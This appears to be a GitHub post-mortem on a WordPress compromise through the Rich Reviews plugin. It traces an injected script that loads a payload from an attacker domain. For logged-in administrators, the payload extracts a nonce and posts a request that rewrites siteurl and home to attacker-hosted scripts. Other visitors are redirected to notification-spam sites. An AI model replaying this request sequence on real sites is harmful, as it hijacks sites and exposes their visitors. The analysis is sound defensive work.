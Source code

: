 # Belaterwashere

This repo represents some work done to understand an attack on a wordpress site.

## Current post mortem:

### Initial attack vector
- publicly disclosed vulnerability in the `Rich Reviews` plugin used on the word press site
  - Disclosure at Wordfence here: [https://www.wordfence.com/blog/2019/09/rich-reviews-plugin-vulnerability-exploited-in-the-wild/](https://www.wordfence.com/blog/2019/09/rich-reviews-plugin-vulnerability-exploited-in-the-wild/)
  - this allow the attacker to modify options to inject a script onto the page
  - the script then downloaded an additional payload from `https://capital.belaterbewasthere.com/len.php`
  - This script would detect whether the user was logged in or not and then perform further action
  - __Logged in__
    - `GET /wp-admin/options-general.php` on the current domain
      - identify and extract the `wpnonce` from the response (for CSRF)
    - `POST /wp-admin/options.php` on current domain
      - referrer set to `/wp-admin/options-general.php`
      - data is: 
      ```js
      {
        'action': "update",
        '_wpnonce': nonce,
        '_wp_http_referer': "/wp-admin/options-general.php",
        'option_page': "general",
        'siteurl': "https://bes.belaterbewasthere.com/reserv//t3.js?",
        'home': "https://bes.belaterbewasthere.com/reserv/a3.js?"
      },
      ```
      (note: `https://bes.belaterbewasthere.com/reserv//t3.js?` is not a typo)
      - Attempts to set the `siteurl` and `home` as the urls given above
        - you can check if these have been sucessful by looking in your general settings in the admin panel
    - `POST /wp-admin/admin-ajax.php` on current domain
      - data : `{"action": "fake", "permalink_structure": 1}`
    - Force page reload by appending `&reload=1` to `window.location`
  - __Not Logged in__
    - User page is stopped and redirected via `https://capital.belaterbewasthere.com/len.php?s=678&_id=129843478&utm=gfhklew45`
    - User navigated to a domain which pretends to be a human verification and askes the user to accept notifications
      - Two domains have been seen for this:
        - `https://redrelaxfollow.com`
        - `https://greenrelaxfollow.com`
      - Unsure as to the intended "attack" at this point. Possibly just advertisment injection at a later date.

## Additional notes

Multiple other sites have been hit with the same attack, as seen by a [quick google search](https://www.google.com/search?q=belaterbewasthere&oq=belaterbewasthere) or in the screenshot below:
<details>
    <summary><a href="./Assets/OtherAffectedPages.png"> Assets/OtherAffectedPages.png</a></summary>
    <img src=./Assets/OtherAffectedPages.png alt="Google search of malicious domain name"/>
</details>

## Contact
If you would like more information or just want to discuss things, feel free to ping me here or [on twitter](https://twitter.com/E314cRael)

Please feel free to use this "research" for discussions, content and further research, but please make an acknowledgement in the material and link here.
